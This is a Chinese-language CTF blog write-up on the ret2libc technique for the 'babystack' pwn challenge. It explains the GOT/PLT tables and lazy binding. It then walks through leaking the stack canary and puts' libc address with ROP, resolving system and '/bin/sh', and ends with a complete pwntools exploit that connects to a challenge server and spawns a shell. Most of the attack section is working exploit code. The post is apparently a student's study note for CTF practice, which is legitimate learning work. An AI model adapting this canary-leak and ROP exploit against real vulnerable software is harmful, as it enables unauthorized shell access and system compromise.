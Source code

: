 ```yaml
---
layout: post
title: ""
date:   2022-11-22
tags: [pwn]
comments: true
author: gbeefee
	
---
```


​	ret2libc，终于还是要搞明白了，继续栈的学习理论知识😌，下周就去学堆。

#### 0x0 

​	不同于ret2text，在程序中通常可以找的明显的system()或“/bin/sh”，没有的东西就只能靠手搓了。ret2libc的目标就是在程序中泄露出某一函数（通常是puts和write）的真实地址，根据这个地址获取对于版本的libc，在libc里就存在需要的sysem()和“/bin/sh"，再通过ROP，把它们拼成最后的栈溢出payload，获取shell的控制权。

#### 0x1

​	要泄露一个函数的真实地址，就不得不提到plt表和got表以及延迟绑定机制了。got表也叫全局偏移表，是Linux ELF文件中用于定位全局变量和函数的一个表。plt表也叫过程链接表，是用来存储外部函数在内存的确切地址，即函数第一次被调用的时候才进行绑定。在Linux系统中，为了节约程序运行的空间，函数只有在第一次执行后，才会完成got表和plt表的绑定。也就是说，在第二次调用后，got表才可以直接调用函数。

#### 0x2

例题：攻防世界pwn-1

![checksec](https://github.com/gbeefee/imghome/blob/4b62d12cff42a86998bbea6d5a36711a8f590d67/checksec.png)

没有pie保护

![main](https://github.com/gbeefee/imghome/blob/d06adada018f27833ce7abfd67a222cafc80a53c/main.png)

![menu](https://github.com/gbeefee/imghome/blob/d06adada018f27833ce7abfd67a222cafc80a53c/menu.png)

不存在后门，有很明显的溢出点，但是有canary保护，需要先泄露canary。

canary的最后一位是\x00，但是puts函数读取到\x00就会自动停止，第一次输入b'a'*0x80\n，最后一个字节正好把\x00覆盖，puts函数就会连带把canary一起打印，之后再把\x00补上，就成功泄露了canary。

`io.sendlineafter(">>",'1')`

`io.sendline(b'a'*0x88)`

`io.sendlineafter(">>",'2')`

`io.recvuntil('a\n')`

`canary = u64(io.recv(7).rjust(8,b'\x00'))`

泄露puts的真实地址，这里需要使用ROPgadget获取pop_rdi。

`payload1 = b'A'*0x88 + p64(canary) + p64(0)+ p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main_addr)`

`io.sendlineafter(">> ",'1')`

`io.sendline(payload1)`

`io.sendlineafter(">> ",'3')`

`puts_addr = u64(io.recv(6).ljust(8,b'\x00'))`

`print(hex(puts_addr))`

最后通过偏移计算出system和binsh的地址

`libc = LibcSearcher('puts', puts_addr)`

`libc_base = puts_addr - libc.dump('puts')`

`system = libc_base + libc.dump('system')`

`binsh = libc_base + libc.dump('str_bin_sh')`

`io.sendlineafter('>> ','1')`

`payload2 ='a'*0x88 + p64(canary) +p64(0)+ p64(pop_rdi) + p64(binsh) + p64(system)`

`io.send(payload2)`

`io.sendlineafter('>> ','3')`

`io.interactive()`

结果如图

![result](https://github.com/gbeefee/imghome/blob/d06adada018f27833ce7abfd67a222cafc80a53c/result.png)

完整exp：

`from pwn import *`

`from LibcSearcher import *`

`context(os="linux", arch="amd64", log_level="debug")`

`elf = ELF("./babystack")`

`io=remote("61.147.171.105", 57778)`

`\#io=process("./babystack")`

`main_addr=0x0400908`

`pop_rdi = 0x0400a93`

`puts_got = elf.got['puts']`

`puts_plt = elf.plt['puts']`

`io.sendlineafter(">>",'1')`

`io.sendline(b'a'*0x88)`

`io.sendlineafter(">>",'2')`

`io.recvuntil('a\n')`

`canary = u64(io.recv(7).rjust(8,b'\x00'))`

`payload2 = b'A'*0x88 + p64(canary) + p64(0)+ p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main_addr)`

`io.sendlineafter(">> ",'1')`

`io.sendline(payload2)`

`io.sendlineafter(">> ",'3')`

`puts_addr = u64(io.recv(6).ljust(8,b'\x00'))`

`libc = LibcSearcher('puts', puts_addr)`

`libc_base = puts_addr - libc.dump('puts')`

`system = libc_base + libc.dump('system')`

`binsh = libc_base + libc.dump('str_bin_sh')`

`io.sendlineafter('>> ','1')`

`payload2 ='a'*0x88 + p64(canary) +p64(0)+ p64(pop_rdi) + p64(binsh) + p64(system)`

`io.send(payload2)`

`io.sendlineafter('>> ','3')`

`io.interactive()`

